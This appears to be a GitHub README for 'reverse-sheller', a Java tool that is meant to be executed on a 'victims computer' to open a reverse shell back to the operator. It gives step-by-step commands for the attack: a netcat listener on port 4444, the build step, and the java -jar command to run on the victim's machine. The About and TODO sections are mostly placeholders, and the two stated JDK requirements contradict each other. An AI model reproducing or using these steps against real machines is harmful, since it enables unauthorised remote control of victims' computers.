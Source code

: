 # reverse-sheller

Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.

![Reverse shell terminal picture](imgs/reverse-shell-picture.jpg)

## Usage 💡

1) Open server waiting for client connection. From this terminal you will be able to execute reverse shell commands:

```bash
nc -lvnp 4444
```

2) Build `.jar` using:

```bash
./gradlew build
```

3) Grab the `.jar` from `./src/client/build/libs` and execute it on the victims computer using:

```bash
java -jar <filename.jar> 127.0.0.1 4444
```

(Requirement: JDK8 or higher needs
to be installed on victims computer, and JAVA_HOME variable needs to be pointing to working JDK instance)

## About 💁📙

...
...

## TODO 📝

Things that need to be done:

1) Server implementation
2) ...
3) ...
   ...

![README ending picture](imgs/readme-ending-picture.jpg)

## Author 👷

Drop me a line at: rojberr@outlook.com 